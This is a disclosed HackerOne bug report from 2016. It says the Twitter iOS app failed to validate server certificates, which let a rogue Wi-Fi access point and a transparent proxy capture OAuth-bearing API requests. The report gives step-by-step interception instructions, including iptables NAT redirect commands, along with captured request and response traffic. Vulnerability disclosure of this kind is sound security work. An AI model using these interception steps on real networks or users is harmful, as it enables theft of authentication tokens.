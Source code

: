 # Twitter iOS fails to validate server certificate and sends oauth token

## Report Details
- **Report ID**: 168538
- **URL**: https://hackerone.com/reports/168538
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-09-15T08:58:11.908Z
- **Disclosed**: 2016-12-23T14:34:45.368Z

## Reporter
- **Username**: floyd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Twitter on iOS newest two versions (6.62 and 6.62.1) are affected, other versions not tested. Tested independently on two different iPhone 6 with iOS version 9.3.3 and 9.3.5 without Jailbreak. The iPhone were without any mobileconfig profiles installed - *no* we did not install any CA certificate in the CA store of the device. Really stock iPhones. The Twitter app does not check the SSL/TLS certificate of https://api.twitter.com . A transparent proxy setup (eg. burp suite in transparent mode) is sufficient to exploit. Steps to reproduce:
1. Start Burp or other Proxy software in transparent mode. Setting "Generate CA-signed per-host certificates", which means the CA cert of Burp is used, which is *not* trusted on the iPhones.
2. Start rogue Wifi access point (eg. on the same machine as burp)
3. Redirect all incoming HTTPS traffic on the rogue Wifi access point to the transparent proxy. We simply used on Linux:
iptable -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j DNAT --to $BURP_IP:8080
iptable -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
4. Connect with the iOS device to the Wifi access point
5. Open Twitter app on iOS
6. In burp only the calls to api.twitter.com are visible and include sensitive authentication information etc.

This is the information we saw for two different accounts in burp which includes the oauth token etc.:

GET /1.1/help/settings.json?include_zero_rate=true&settings_version=8910e1e75c037c3c6b59c64b477b0741 HTTP/1.1
Host: api.twitter.com
█████████
X-Twitter-Client-Version: 6.62
X-Twitter-Polling: true
X-Client-UUID: D8AB1681-1618-48BA-9EB0-F3628DF1660B
X-Twitter-Client-Language: de
X-B3-TraceId: cc8ac1aea2ba5628
x-spdy-bypass: 1
Accept: */*
Accept-Language: de
Accept-Encoding: gzip, deflate
X-Twitter-Client-DeviceID: 68715C92-258F-4C59-A0B4-B98AF8B976BC
User-Agent: Twitter-iPhone/6.62 iOS/9.3.3 (Apple;iPhone8,1;;;;;1)
Connection: close
X-Twitter-API-Version: 5
X-Twitter-Client-Limit-Ad-Tracking: 1
X-Twitter-Client: Twitter-iPhone



HTTP/1.1 304 Not Modified
cache-control: no-cache, no-store, must-revalidate, pre-check=0, post-check=0
connection: close
content-length: 0
content-security-policy: default-src 'self'; connect-src 'self'; font-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com data:; frame-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com; img-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com data:; media-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com; object-src 'none'; script-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com; style-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com; report-uri https://twitter.com/i/csp_report?a=NVQWGYLXFVRWY2LFNZ2C2Y3PNZTGSZY%3D&ro=false;
content-type: text/html;charset=utf-8
date: Thu, 15 Sep 2016 08:33:18 GMT
expires: Tue, 31 Mar 1981 05:00:00 GMT
last-modified: Thu, 15 Sep 2016 08:33:18 GMT
pragma: no-cache
server: tsa_b
set-cookie: guest_id=v1%3A147392839826657964; Domain=.twitter.com; Path=/; Expires=Sat, 15-Sep-2018 08:33:18 UTC
status: 304 Not Modified
strict-transport-security: max-age=631138519
x-access-level: read-write
x-client-event-enabled: true
x-connection-hash: 40e91f874332181942e1454b13ccaa6a
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-rate-limit-limit: 15
x-rate-limit-remaining: 12
x-rate-limit-reset: 1473929244
x-response-time: 29
x-transaction: cc8ac1aea2ba5628
x-twitter-response-tags: BouncerExempt
x-twitter-response-tags: BouncerCompliant
x-xss-protection: 1; mode=block



GET /1.1/help/settings.json?include_zero_rate=true&settings_version=8910e1e75c037c3c6b59c64b477b0741 HTTP/1.1
Host: api.twitter.com
█████████
X-Twitter-Client-Version: 6.62
X-Twitter-Polling: true
X-Client-UUID: D8AB1681-1618-48BA-9EB0-F3628DF1660B
X-Twitter-Client-Language: de
X-B3-TraceId: 796651628eef7eed
x-spdy-bypass: 1
Accept: */*
Accept-Language: de
Accept-Encoding: gzip, deflate
X-Twitter-Client-DeviceID: 68715C92-258F-4C59-A0B4-B98AF8B976BC
User-Agent: Twitter-iPhone/6.62 iOS/9.3.3 (Apple;iPhone8,1;;;;;1)
Connection: close
X-Twitter-API-Version: 5
X-Twitter-Client-Limit-Ad-Tracking: 1
X-Twitter-Client: Twitter-iPhone



HTTP/1.1 304 Not Modified
cache-control: no-cache, no-store, must-revalidate, pre-check=0, post-check=0
connection: close
content-length: 0
content-security-policy: default-src 'self'; connect-src 'self'; font-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com data:; frame-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com; img-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com data:; media-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com; object-src 'none'; script-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com; style-src 'self' https://*.twimg.com https://twitter.com https://ton.twitter.com; report-uri https://twitter.com/i/csp_report?a=NVQWGYLXFVRWY2LFNZ2C2Y3PNZTGSZY%3D&ro=false;
content-type: text/html;charset=utf-8
date: Thu, 15 Sep 2016 08:34:36 GMT
expires: Tue, 31 Mar 1981 05:00:00 GMT
last-modified: Thu, 15 Sep 2016 08:34:36 GMT
pragma: no-cache
server: tsa_b
set-cookie: guest_id=v1%3A147392847623972314; Domain=.twitter.com; Path=/; Expires=Sat, 15-Sep-2018 08:34:36 UTC
status: 304 Not Modified
strict-transport-security: max-age=631138519
x-access-level: read-write
x-client-event-enabled: true
x-connection-hash: e980abd0bd35e3bf0b8c693e8a12f636
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-rate-limit-limit: 15
x-rate-limit-remaining: 11
x-rate-limit-reset: 1473929244
x-response-time: 44
x-transaction: 796651628eef7eed
x-twitter-response-tags: BouncerExempt
x-twitter-response-tags: BouncerCompliant
x-xss-protection: 1; mode=block


## Attachments
No attachments
